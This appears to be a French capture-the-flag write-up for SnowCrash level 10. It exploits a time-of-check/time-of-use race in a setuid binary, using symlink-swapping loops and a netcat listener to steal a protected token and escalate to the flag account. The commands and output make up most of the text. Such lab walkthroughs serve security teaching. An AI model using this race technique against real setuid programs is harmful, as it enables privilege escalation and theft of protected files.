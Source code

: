 Avec la commande **ls**, on trouve un fichier binaire **level10** et un fichier **token**.

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

On remarque que le binaire `level10` prends en parametre un fichier et un host:
```bash
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

En decompilant on observe un `access` sur le fichier, on essaye de faire comme le level précedent :
```bash
level10@SnowCrash:~$ ln -sf ~/token /tmp/link
level10@SnowCrash:~$ ./level10 /tmp/link 0.0.0.0
You don't have access to /tmp/link
```

Pour passer la condition du `access` on peut simplement lui donner un fichier qui a les permissions:
```bash
level10@SnowCrash:~$ echo hello > /tmp/t
level10@SnowCrash:~$ nc -l 6969 & ./level10 /tmp/t 0.0.0.0
[2] 3767
Connecting to 0.0.0.0:6969 .. .*( )*.
Connected!
Sending file .. hello
wrote file!
[1]-  Done                    nc -l 696
```

Dans le binaire, les syscall `access` et `open` sont séparés par plusieurs lignes de code et conditions, dont la création du socket et l'envoi de la bannière au host.

On peut donc exploiter le temps entre les syscall `access` et `open` en changeant de link.

Comme par exemple avec cette commande :
```bash
while true ; do ln -sf ~/token /tmp/link; ln -sf /tmp/t /tmp/link; done
```

Puis on finit par boucler également sur le `./level10`, car on n'est pas assuré du résultat sur le 1er coup.

```bash
while true; do nc -l 6969 & ./level10 /tmp/link 0.0.0.0; done
```

On aura éventuellement le mot de passe de **flag10** qui apparaîtra.

Puis on peut récupérer le flag.

```bash
su -c getflag - flag10
```
